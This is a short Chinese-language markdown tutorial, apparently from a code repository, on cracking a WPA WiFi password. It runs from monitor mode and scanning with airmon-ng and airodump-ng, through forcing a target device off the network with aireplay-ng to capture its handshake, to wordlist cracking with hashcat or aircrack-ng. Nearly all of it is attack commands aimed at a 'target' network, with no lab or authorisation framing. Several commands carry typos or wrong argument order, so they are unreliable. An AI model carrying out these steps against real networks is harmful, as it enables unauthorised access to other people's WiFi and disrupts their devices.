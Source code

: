 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.
```bash
iwconfig
```

2. 開啓無線網卡監聽模式.
```bash
sudo airmon-ng start wlan0
```
開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

3. 監聽 Wifi 信號.
```bash
sudo airodunp-ng wlan0mon
```
當發現目標 Wifi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wifi 通信內容.
```bash
sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
```

5. 斷開指定設備與指定 Wifi 的鏈接.
```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
```
目標設備從指定 Wifi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.
此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.
  - 使用 Hashcat. (推薦)
    ```bash
    aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
    hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
    ```
  - 使用 aircrack-ng.
    ```bash
    aircrack-ng -w [.cap存檔文件] [字典文件]
    ```

8. 關閉無線網卡監聽模式.
```bash
sudo airmon-ng stop wlan0mon
```
